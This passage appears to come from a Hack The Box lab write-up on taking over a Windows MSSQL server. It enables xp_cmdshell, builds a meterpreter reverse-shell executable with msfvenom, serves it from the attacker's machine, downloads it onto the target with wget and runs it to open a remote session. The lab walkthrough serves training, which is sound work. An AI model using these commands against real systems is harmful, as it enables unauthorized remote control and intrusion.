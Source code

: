     And we are successfully authenticated to the MSSQL server and get a session of it.

7. Let's run `xp_cmdshell` and try command excution, we will use `powershell -c` for more features rather than regular command prompt

   ```bash
   SQL> enable_xp_cmdshell
   SQL> xp_cmdshell "powershell -c pwd"
   ```

8. Now attempt to get a **stable reverse shell**. Generate a reversed shell by `msfvenom` (`msfvenom -l payloads` to list the payloads it can provide)

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<TUN0_IP> -f exe -o winRevShell.exe
   ```

9. Use `msfconsole` to configure and handle the reverse shell connection (you can run `help search` to *show options* for the search modules function)

    ```bash
    msfconsole
    msf6> use exploit/multi/handler
    msf6 exploit(multi/handler)> set PAYLOAD windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler)> show options
    msf6 exploit(multi/handler)> set LHOST <TUN0_IP>
    msf6 exploit(multi/handler)> run
    ```

    ![](../assets/img/htb-starting-point/18.png)

    Now the handler is ready for reverse connection from the target machine.

10. Let's upload our `winRevShell.exe` by python server.

    ```bash
    python3 -m http.server 80
    ```

11. Then `wget` it in the target machine through the SQL shell. As a `sql_svc` user, we would change directory to his user folder which has enough privilege to modify the folder.

      ```bash
      SQL> xp_cmdshell "powershell -c cd C:/Users/sql_svc/Documents; wget http://10.10.14.201/winRevShell.exe -outfile winRevShell.exe; dir"
      ```

      ![](../assets/img/htb-starting-point/19.png)

12. Let's run the `winRevShell.exe`

       ```bash
       SQL> xp_cmdshell "powershell -c C:/Users/sql_svc/Documents/winRevShell.exe"
       ```

       ![](../assets/img/htb-starting-point/20.png)

       Now we receive a meterpreter session (use **help** to see commands) from the target machine!
